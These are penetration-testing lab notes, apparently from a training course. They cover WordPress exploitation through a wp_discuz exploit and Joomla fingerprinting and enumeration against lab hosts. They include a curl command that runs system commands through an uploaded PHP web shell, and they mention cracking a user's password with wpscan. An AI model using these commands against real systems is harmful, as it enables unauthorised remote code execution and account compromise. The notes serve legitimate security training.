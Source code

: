#### Using cURL to execute commands using the uploaded web shell (if the above exploit fails)
```Shell
curl -s http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php?cmd=id
```
The above URL can be found in the output from the `wp_discuz.py` exploit. In this example, we would want to make sure to clean up the `uthsdkbywoxeebg-1629904090.8191.php` file and once again list it as a testing artifact in the appendices of our report.

***LAB Notes:*
1) Used wpscan to find user and crack password
2) Used mail-masta to find the other user at `/bin/bash`
3) Used `wp_discuz.py` to upload a file and cURL to call RCE commands from that scipt


## Joomla - Discovery & Enumeration

### Discovery

#### Using cURL to determine if Joomla is being used on an e-commerce page
```Shell
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

#### Fingerprinting the Joomla version if the `README.txt` file is available
```Shell
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

#### Fingerprinting the version from JavaScript files in the `media/system/js/` directory or by browsing to `administrator/manifests/files/joomla.xml`
```Shell
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```
The `cache.xml` file can help to give us the approximate version. It is located at `plugins/system/cache/cache.xml`.

### Enumeration

#### Installing `droopescan`
```Shell
python3 -m pip install --upgrade pip
pip3 install droopescan
```

#### Scanning a Joomla web page with `droopescan`
```Shell
droopescan scan joomla --url http://dev.inlanefreight.local/
```
